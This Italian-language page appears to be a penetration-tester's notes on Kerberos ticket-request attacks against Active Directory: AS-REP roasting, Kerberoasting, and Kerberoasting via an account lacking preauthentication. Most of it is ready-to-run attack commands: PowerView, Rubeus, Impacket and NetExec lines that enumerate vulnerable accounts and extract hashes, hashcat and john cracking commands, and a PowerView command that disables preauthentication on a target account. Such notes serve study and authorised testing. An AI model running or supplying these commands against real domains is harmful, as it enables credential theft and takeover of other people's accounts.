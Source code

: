 ```yaml
---
description: Kerberos Ticket Request Attacks
authors: pozivonpm
category: ad
---
```

# Ticket Request Attacks

Ci sono due modi per richiedere un ticket: 

- TGT o `AS-REQ`, a cui il KDC risponde con un `AS-REP`
- Richiesta TGS, o `TGS-REQ`, a cui il KDC risponde con un `TGS-REP`

### AS-REP Roasting

Quando abbiamo richiesto un TGT (AS-REQ), abbiamo visto che `per impostazione predefinita`, un utente deve autenticarsi tramite un `autenticatore` crittografato con il proprio segreto. Tuttavia, se un utente ha **disabilitato la  preautenticazione**, potremmo richiedere i dati di autenticazione per  quell'utente e il KDC restituirà un messaggio AS-REP. Poiché parte di  tale messaggio (la chiave di sessione temporanea condivisa) viene  crittografata utilizzando la password dell'utente, è possibile eseguire  **un attacco di forza bruta offline per tentare di recuperare la password** dell'utente.

Ci sono **altri modi** in cui possiamo sfruttare questo attacco, se si hanno delle autorizzazioni `GenericWrite` o `GenericAll` per un account. In tal caso, possono abilitare questo attributo e  ottenere il ticket AS_REP per il cracking offline per recuperare la  password dell'account prima di disabilitarlo nuovamente; il successo dipende dal fatto che l'utente abbia una password relativamente debole. 

**ENUMERAZIONE**
::: tabs
=== PowerView

[PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) può essere usato per enumerare gli utenti con il flag della proprietà [UserAccountControl](https://learn.microsoft.com/en-us/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) (`UAC`) impostato su `DONT_REQ_PREAUTH`.

```powershell
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
```
=== Rubeus
Possiamo anche utilizzare `Rubeus.exe asreproast /format:hashcat` per enumerare tutti gli account con il flag `DONT_REQ_PREAUTH`.

```powershell
.\Rubeus.exe asreproast /user:jenna.smith /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt
```
=== Impacket

```bash
impacket-GetNPUsers '$domain'/'$user':'$passwd' -dc-ip '$ip' -no-pass | grep '\$krb5asrep\$' > as-rep.txt

impacket-GetNPUsers -request '$domain'/'$user':'$passwd' -dc-ip '$ip' -outputfile as-rep.txt

impacket-GetNPUsers '$domain'/ -dc-ip '$ip' -usersfile users.txt -format hashcat -outputfile hashes.txt -no-pass
```

=== NetExec

```bash
nxc ldap $ip -u '$user' -p '$passwd' --asreproast as-rep.txt
```
:::
Se la pre-autenticazione è disabilitata per un utente, l'invio di un nome utente valido fa sì che il KDC risponda con un messaggio AS-REP valido.
**Se la pre-autenticazione è abilitata, le risposte del KDC variano in base all'esistenza del nome utente o meno:**

`KRB5KDC_ERR_PREAUTH_REQUIRED` - Se è richiesta la pre-autenticazione e l'utente esiste.
`KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN` - Se l'utente non esiste.


**CRACKING HASH**

```bash
hashcat.exe -m 18200 hashes.txt /Tools/rockyou.txt -O
john --wordlist=/Tools/rockyou.txt hashes.txt
```

**Impostare DONT_REQ_PREAUTH con PowerView**

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=userName)(name=userName)(displayname=userName))))
VERBOSE: [Set-DomainObject] XORing 'useraccountcontrol' with '4194304' for object 'userName'
```

### Kerberoasting

Allo stesso modo, quando un utente dispone di un TGT, può richiedere un  ticket di servizio per qualsiasi servizio esistente. La risposta KDC (TGS-REP) contiene informazioni crittografate con il segreto `dell'account del servizio`. Se l'account del servizio ha una password debole, è possibile eseguire lo stesso attacco offline per recuperare la password per quell'account.

`Kerberoasting` è un attacco contro gli account del servizio che consente a un utente  malintenzionato di eseguire un attacco di cracking delle password  offline contro l'account Active Directory associato al servizio. È  simile ad ASREPRoasting, ma richiede l'autenticazione preventiva al  dominio. In altre parole, per eseguire l'attacco abbiamo bisogno di un  account utente di dominio e di una password validi (anche quelli con  privilegi più bassi) o di una shell SYSTEM (o di un account di dominio  con privilegi bassi) su una macchina aggiunta a un dominio.

Quando un servizio viene registrato, un [nome dell'entità servizio (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) viene aggiunto ad Active Directory ed è un alias di un account AD  effettivo. Le informazioni archiviate in Active Directory includono il  nome del computer, la porta e l'hash della password dell'account AD. In  una configurazione corretta, gli "account di servizio" vengono  utilizzati con questi SPN per garantire una password complessa. Questi  account sono come gli account macchina e possono anche avere password a  rotazione automatica.

Un account che espone un servizio ha un nome dell'entità servizio (o SPN). Si tratta di un attributo LDAP impostato sull'account che indica  l'elenco dei servizi esistenti forniti da questo account. Se questo  attributo non è vuoto, questo account offre almeno un servizio. 

**ENUMERAZIONE:**

::: tabs
=== PowerView

[PowerView](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1) può essere utilizzato per enumerare gli utenti con un SPN impostato e richiedere automaticamente il `ticket di servizio (ST)` per produrre un hash crackabile.

```powershell
Get-DomainUser -SPN
```

Possiamo anche utilizzare l'uso di PowerView per eseguire direttamente l'attacco Kerberoasting.

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
```

Invece del metodo manuale illustrato sopra, possiamo utilizzare la funzione `Invoke-Kerberoast` per eseguire questa operazione rapidamente.

```powershell
Invoke-Kerberoast
```

=== Rubeus
Possiamo usare Rubeus per Kerberoast tutti gli utenti disponibili e restituire i loro hash per il cracking offline. 

```powershell
C:\Tools>Rubeus.exe kerberoast /nowrap
```

=== Impacket
**IMPACKET**

```bash
impacket-GetUserSPNs '$domain'/'$user' -request
```
:::

**CRACKING HASH**

```bash
hashcat.exe -m 13100 hashes.txt /Tools/rockyou.txt
hashcat -m 13100 hashes.txt rockyou.txt
```

### Kerberoasting senza password dell'account

 C'è un caso in cui possiamo eseguire un attacco Kerberoasting senza un account di dominio e una password validi, quando siamo a conoscenza di un account senza la preautenticazione Kerberos abilitata.

Possiamo utilizzare questo account per utilizzare una richiesta `AS-REQ` (solitamente utilizzata per richiedere un TGT) per richiedere un ticket TGS per un utente Kerberoastable. Questo viene fatto modificando la parte req-body della richiesta.

Per eseguire questo attacco, abbiamo bisogno di quanto segue: 

1. Nome utente di un account con la preautenticazione disabilitata (`DONT_REQ_PREAUTH`).
2. Un nome SPN di destinazione o un elenco di nomi SPN. 

```powershell
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```

